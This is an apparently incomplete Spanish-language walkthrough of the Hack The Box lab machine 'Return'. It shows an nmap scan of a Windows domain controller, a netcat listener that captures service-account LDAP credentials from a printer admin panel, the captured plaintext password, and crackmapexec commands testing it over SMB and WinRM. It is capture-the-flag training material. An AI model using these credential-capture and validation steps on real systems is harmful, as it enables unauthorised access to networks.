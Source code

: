 # Return-HTB

## NMAP

```ruby
   │ # Nmap 7.94SVN scan initiated Tue Mar 12 23:31:16 2024 as: nmap -sVC -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49673,49674,49675,49676,49679,49694 -oN Scan 10.129.247.90
   2   │ Nmap scan report for 10.129.247.90
   3   │ Host is up (0.16s latency).
   4   │ 
   5   │ PORT      STATE SERVICE       VERSION
   6   │ 53/tcp    open  domain        Simple DNS Plus
   7   │ 80/tcp    open  http          Microsoft IIS httpd 10.0
   8   │ | http-methods: 
   9   │ |_  Potentially risky methods: TRACE
  10   │ |_http-server-header: Microsoft-IIS/10.0
  11   │ |_http-title: HTB Printer Admin Panel
  12   │ 88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-13 03:50:02Z)
  13   │ 135/tcp   open  msrpc         Microsoft Windows RPC
  14   │ 139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
  15   │ 389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
  16   │ 445/tcp   open  microsoft-ds?
  17   │ 464/tcp   open  kpasswd5?
  18   │ 593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
  19   │ 636/tcp   open  tcpwrapped
  20   │ 3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
  21   │ 3269/tcp  open  tcpwrapped
  22   │ 5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
  23   │ |_http-title: Not Found
  24   │ |_http-server-header: Microsoft-HTTPAPI/2.0
  25   │ 9389/tcp  open  mc-nmf        .NET Message Framing
  26   │ 47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
  27   │ |_http-server-header: Microsoft-HTTPAPI/2.0
  28   │ |_http-title: Not Found
  29   │ 49664/tcp open  msrpc         Microsoft Windows RPC
  30   │ 49665/tcp open  msrpc         Microsoft Windows RPC
  31   │ 49666/tcp open  msrpc         Microsoft Windows RPC
  32   │ 49667/tcp open  msrpc         Microsoft Windows RPC
  33   │ 49673/tcp open  msrpc         Microsoft Windows RPC
  34   │ 49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
  35   │ 49675/tcp open  msrpc         Microsoft Windows RPC
  36   │ 49676/tcp open  msrpc         Microsoft Windows RPC
  37   │ 49679/tcp open  msrpc         Microsoft Windows RPC
  38   │ 49694/tcp open  msrpc         Microsoft Windows RPC
  39   │ Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows
  40   │ 
  41   │ Host script results:
  42   │ | smb2-security-mode: 
  43   │ |   3:1:1: 
  44   │ |_    Message signing enabled and required
  45   │ | smb2-time: 
  46   │ |   date: 2024-03-13T03:51:02
  47   │ |_  start_date: N/A
  48   │ |_clock-skew: 18m35s
  49   │ 
  50   │ Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  51   │ # Nmap done at Tue Mar 12 23:32:39 2024 -- 1 IP address (1 host up) scanned in 82.40 seconds


```

Desde aqui ya te das cuenta que es un AD primer paso conseguir credenciales validas.

![image](https://github.com/gecr07/Return-HTB/assets/63270579/5294ce5e-4b5f-41ca-84e1-f68ed839302a)

Para ver si aluna conexion llega SIEMPRE el nc

```
nc -lvnp 389

```

Lo que nos da ya un usuario valido y la contraseña.

```
connect to [10.10.14.146] from (UNKNOWN) [10.129.247.90] 62505
0*`%return\svc-printer
                      1edFg43012!!


```

Probamos que el usuario y pass sea valido. Y ademas checamos el winrm que vemos que tenemos el puerto abierto

```
crackmapexec smb 10.129.247.90 -u 'svc-printer' -p '1edFg43012!!'

crackmapexec winrm 10.129.247.90 -u 'svc-printer' -p '1edFg43012!!' 

```

Si nos pone P0wned entonces tenemos posibilidad de entrar por Winrm.

```

```




















































